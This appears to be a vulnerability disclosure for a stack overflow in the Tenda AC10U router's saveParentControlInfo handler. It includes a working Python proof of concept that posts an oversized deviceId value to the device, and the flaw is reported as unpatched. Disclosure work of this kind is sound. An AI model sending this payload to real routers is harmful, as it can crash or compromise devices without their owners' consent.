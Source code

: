 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the deviceId parameter in the saveParentControlInfo function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "saveParentControlInfo" retrieves the parameter "deviceId" using "websGetVar", the value of "deviceId" is passed into function strcpy without any length check, and stored in "(char *)pc_info->mac_addr". It can cause a stack overflow if the size of the data we enter exceeds the size of "(char *)pc_info->mac_addr".

![1705412077003](image/saveParentControlInfo_1/1705412077003.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/saveParentControlInfo'
payload = {
    'deviceId': '10:11:11:11:11:16'*0x500,
    'deviceName': 'deviceNAME666',
    'enable': '1',
    'time': '10:00-22:00',
    'url_enable': '1',
    'urls': "www.google.com",
    'day': '1,1,1,1,1,1,1',
    'limit_type': '0',
}

res = requests.post(url=url, data=payload)
print(res.content)
```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html

